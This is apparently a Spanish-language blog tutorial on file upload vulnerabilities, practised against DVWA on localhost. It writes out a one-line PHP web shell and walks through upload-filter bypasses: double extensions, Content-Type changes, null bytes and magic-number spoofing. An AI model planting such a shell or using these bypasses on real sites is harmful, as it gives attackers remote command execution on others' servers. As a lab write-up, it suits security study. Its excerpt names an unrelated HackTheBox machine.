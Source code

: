 ```yaml
---
title: "File Upload"
layout: single
excerpt: Este es el "Write-Up" de la máquina **Armageddon** de la plataforma HackTheBox, maquina easy pero nunca esta demas compartir informacion, espero y les guste...  
header:
show_date: true
classes: wide
header:
  teaser: "/assets/images/File_Upload/File_upload.png"
  teaser_home_page: true
  icon: "/assets/images/File_Upload/File_upload.png"
categories:
  - Web Hacking
tags:
  - upload
  - hackweb


---
```


 ![](/assets/images/File_Upload/File_upload.png)  

Esta funcionalidad es esencial en casi todas las aplicaciones web permitiendo al usuario subir una foto, video, archivos de audio, CV , etc ...

Como siempre la subida de archivos es un riesgo notable en cualquier aplicacion web sino esta protegido correctamente esta funcionalidad.

Un hacker que tenga la hablidadad de hacer un bypass a esta funcioanlidad de la web podria  conseguir **Ejecución Remota de Comandos** `RCE`.

### 1.1 File Upload - básico

---

Creamos la shell 

```bash
echo '<?php system($_GET["cmd"]);?' >> test1.php
```

![](/assets/images/File_Upload/1.png)  

- Click `upload`

![](/assets/images/File_Upload/f2.png)  

- Accedemos a la url donde se guardo la shell

```http
http://localhost/DVWA/hackable/uploads/test1.php?c=pwd
```

![](/assets/images/File_Upload/f3.png)  

### 1.2 File Upload - extensión doble

---



Algunas aplicaciones web como medida de seguridad certifican la extension del archivo a subir. En otras palabras la subida de archivos está restringida a determinadas extensiones, no obstante,  en este caso veremos como añadiéndole una doble extensión hacemos un bypass.

```bash
mv test1.php tes1.php.png
```

![](/assets/images/File_Upload/f5.png)  

Interceptamos la petición con `Burpsuite` 

![](/assets/images/File_Upload/f6.png) 

- [x] Bypassed!

![](/assets/images/File_Upload/f2.png)

### 1.3 File Upload - content-type

---

Este tipo de restricción se encuentra en la cabecera http `Content-type` .Requiriendo manipular la petición.

![](/assets/images/File_Upload/f7.png)

### 1.4 File Upload - caracter hexadecimal nulo

---
Uno de los enfoques interesantes para cargar documentos permiciosos es utilizar caracteres de `bytes nulos` codificados en URL. El acceso no aprobado a los documentos del sistema podría obtenerse a través de dicha infusión de un byte no válido que da como resultado un `espacio en blanco` en la interpretación ASCII. La incrustación de un byte no válido conducirá a una aplicación web que utilice bibliotecas C / C ++ al verificar el nombre del registro o su contenido. Intentará engañar como si fuera el final de la cadena, y debería dejar de leer detenidamente en esta progresión.

Antes de cargar nuestro archivo PHP, hagamos un pequeño cambio y cambiemos el nombre.

```bash
mv  test1.php  test1.phpA.jpeg
```

- Interceptamos la peticion y la mandamos al `Decoder`

   ![](/assets/images/File_Upload/f9.png)

- El caracter `A`, el cual es el # 41 en `HEX` lo usaremos para identificarlo posteriormente en la petición.

El propósito es identificar rápidamente este caracter en el campo hexadecimal y cambiarlo al caracter nulo antes de enviar la solicitud. 

![](/assets/images/File_Upload/f8.png)

### 1.5 File Upload - números mágicos

---

Usualmente algunas web suelen validar las cabeceras hexadecimales  de la imagen más conocidos como números mágicos .Lógicamente sabiando esto se podría lograr un bypass.



| Extensiones | Cabeceras Hexadecimales |
| ----------- | :---------------------- |
| PNG         | 89 50 4E 47             |
| JPEG        | FF D8 FF E0 / FE        |
| PDF         | 25 50 44 46             |
| DOC         | D0 CF 11 E0             |

- Para cambiar las cabeceras hexadecimales utilizaremos el binario `hexeditor` 

 - Cambiando el `primer octeto` de bytes les quedaría así

   ![](/assets/images/File_Upload/f10.png)
   
   

Posteriormente la web interpretaría este `.php` como una imagen.